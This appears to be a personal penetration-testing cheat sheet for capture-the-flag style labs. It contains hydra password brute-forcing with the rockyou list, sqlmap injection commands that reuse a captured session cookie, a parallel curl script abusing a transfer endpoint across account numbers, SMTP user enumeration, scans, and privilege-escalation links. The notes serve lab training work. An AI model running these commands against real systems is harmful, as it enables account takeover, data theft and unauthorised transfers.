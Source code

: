 ## Pentest

```sh
hydra -I -l 99 -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 5000 ${TARGET_IP} http-form-get "/:user=^USER^&pass=^PASS^:S=302"
hydra -I -l 100 -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 5000 ${TARGET_IP} http-form-get "/:user=^USER^&pass=^PASS^:S=302"
```

```sh
sqlmap http://10.10.178.141:5000 --tamper=space2comment --level 3 --risk 3 --data 'account_number=101+&password=hello'
```

```sh
sqlmap http://10.10.178.141:5000 --cookie="session=eyJuYW1lIjoiVGVzdGVyIiwidXNlciI6MTEwfQ.Z1tB3g.jyoCFwdXj7uP7v6TVesQ7O3-zng" --tamper=space2comment --level 3 --risk 3 --data 'account_number=101&ammount=1'
```

```sh
send_req() {
  id="$1"
  curl -L -s 'http://10.10.178.141:5000/transfer' \
    -X POST \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    -H 'Accept-Encoding: gzip, deflate' \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Origin: http://10.10.178.141:5000' \
    -H 'Connection: keep-alive' \
    -H 'Referer: http://10.10.178.141:5000/dashboard' \
    -H 'Cookie: session=eyJuYW1lIjoiVGVzdGVyIiwidXNlciI6MTEwfQ.Z1tB3g.jyoCFwdXj7uP7v6TVesQ7O3-zng' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'Priority: u=0, i' \
    --data-raw "account_number=${id}&amount=1" | grep Success
}
export -f send_req

array=$(seq 99 112)

parallel send_req ::: "${array[@]}"
```

## nmap report

```sh
sudo grc nmap -v --reason -T4 -sT -F -oG  ${TARGET_IP}
sudo grc nmap -v --reason -T4 -sC -sV -F --version-intensity 9 -p8080 -oG ${TARGET_IP}
```

## Whatweb

```txt
http://10.10.178.141:5000/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.4 Python/3.8.10], IP[10.10.178.141], Python[3.8.10], Werkzeug[3.0.4]
```

## TELNET scripting

```sh
#!/usr/bin/env bash

(
echo open 10.129.88.30 25
sleep 5
echo VRFY samuel
sleep 2
) | telnet
```

## Dir Enum

```sh
gobuster dir -u "http://jewel.uploadvulns.thm/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -x .phar,.php.phtm
```

## Passive OS fingerprinting

- [satori](https://github.com/xnih/satori/)
- [p0f](https://lcamtuf.coredump.cx/p0f3/)

## Mac Ages

- [mac ages](https://github.com/hdm/mac-ages)

### links

- [cvss calculator](https://www.first.org/cvss/calculator/3.1)
- [cyberchef](127.0.0.1:8081)
- [abuse.ch](https://abuse.ch)
- [urlscan](https://urlscan.io)

### Linux Privilege Escalation

- [netbiosx's checklist](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [total oscp guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
- [payatu](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/)

- [linpeas](https://raw.githubusercontent.com/Cerbersec/scripts/refs/heads/master/linux/linpeas.sh)

### Search Engines

- [shodan](https://www.shodan.io/)
- [DNSdumpster](https://dnsdumpster.com/)
- [threatintelligenceplatform](https://threatintelligenceplatform.com/)
- [viewdnsinfo](https://viewdns.info/)
- [google_hacking_database](https://www.exploit-db.com/google-hacking-database)
- [censys](https://search.censys.io/)

### Dorking

- [google](https://support.google.com/websearch/answer/2466433)
- [duckduckgo](https://duckduckgo.com/duckduckgo-help-pages/results/syntax/)
- [bing](https://support.microsoft.com/en-us/topic/advanced-search-options-b92e25f1-0085-4271-bdf9-14aaea720930)
- [shodan](https://github.com/lothos612/shodan)
